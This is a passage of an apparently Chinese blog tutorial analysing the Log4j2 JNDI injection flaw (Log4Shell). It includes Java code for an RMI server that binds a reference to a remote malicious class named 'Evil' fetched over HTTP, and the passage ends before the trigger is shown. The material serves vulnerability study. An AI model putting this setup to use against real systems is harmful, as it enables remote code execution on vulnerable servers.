 ![img](/blog_img/1090320-20211220154921031-1812056539.png)

`log4j2.xml` 配置文件应当放置在项目的类路径（classpath）中，这样 Log4j2 才能在初始化时自动加载这个配置文件。通常来说我们会将log4j2.xml放置在src/main/resources中。

# 漏洞分析

当2.0-beta9 <= log4j2 <= 2.14.1（2.12.2 版本除外）时，log4j2存在一个几乎没有任何利用门槛的JNDI注入漏洞。

首先仿照之前JNDI注入时的老样子，配置一个JNDI服务并设置一个远程恶意类Evil：

```java
import javax.naming.InitialContext;
import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer {
    public static void main(String[] args) throws NamingException, RemoteException {
        Registry registry = LocateRegistry.createRegistry(1098);
        InitialContext initialContext = new InitialContext();
        Reference reference = new Reference("Evil","Evil","http://localhost:8000");
        initialContext.rebind("rmi://localhost:1098/testobj",reference);
    }
}
```
